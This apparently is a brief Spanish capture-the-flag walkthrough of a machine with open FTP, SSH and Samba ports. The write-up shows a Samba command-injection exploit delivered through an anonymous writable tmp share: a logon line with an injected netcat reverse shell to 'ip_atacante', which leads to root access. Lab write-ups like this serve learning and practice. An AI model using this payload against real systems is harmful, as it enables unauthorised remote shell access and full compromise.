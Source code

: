<img src="./Images/Pasted%20image%2020240711182035.png">
encontramos que están abiertos los puertos 21,22,139,445.
La versión de samba el vulnerable a una inyección de comandos.

<img src="./Images/Pasted%20image%2020240711184518.png">
Tenemos permiso de escritura y de lectura al directorio tmp del servidor con el usuario anonymous.

aprovechamos esto para crear una reverse shell.
```
logon "/=´nc ip_atacante -e /bin/bash´"
```

<img src="./Images/Pasted%20image%2020240711185125.png">
Accedemos como root a la máquina.

